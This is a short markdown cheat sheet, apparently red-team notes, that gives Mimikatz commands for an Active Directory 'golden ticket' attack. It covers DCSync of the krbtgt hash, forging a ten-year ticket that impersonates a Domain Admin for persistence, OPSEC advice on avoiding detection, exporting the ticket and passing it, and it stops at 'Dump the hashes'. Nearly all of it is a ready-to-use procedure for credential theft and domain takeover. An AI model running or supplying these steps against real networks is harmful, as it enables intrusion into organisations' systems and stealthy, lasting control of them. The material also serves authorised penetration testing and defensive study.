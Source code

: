 # Golden Ticket

## 01 - Mimikatz

### 1.1 - Manual

```
mimikatz # privilege::debug
Privilege '20' OK
```

Note down the domain name, domain controller, and Object Security ID which is the SID (ignore the last digits before the dash like `-501` for example)

`mimikatz # lsadump::dcsync /domain:<domain_name> /user:krbtgt`

Finally to generate a golden ticket to authenticate as an admin in order to maintain persistence it is recommended for OPSEC reasons that instead of making a new username (like **sysadmin** or **Administrator**) which you can but it's better to impersonate one of the user accounts that is part of **Domain Admins**

Run this command to check which users are part of the **Domain Admins** group to impersonate it (note it will last for 10 years)

```
C:\> net group "domain admins" /domain

mimikatz # kerberos::golden /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_nt_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ptt
```

Note: you can export the ticket to save for further use in the future

```
mimikatz # kerberos::golden /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /id:500 /user:<domain_admin_user_account_to_impersonate> /ticket:golden_ticket.kirbi /ptt
```

List the golden ticket account to see if you're authenticated (Your current session)

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

To export a golden ticket that is already authenticated in the active directory

`mimikatz # kerberos::list /export`

Pass The Ticket

`mimikatz # kerberos::ptt golden_ticket.kirbi`

Dump the hashes
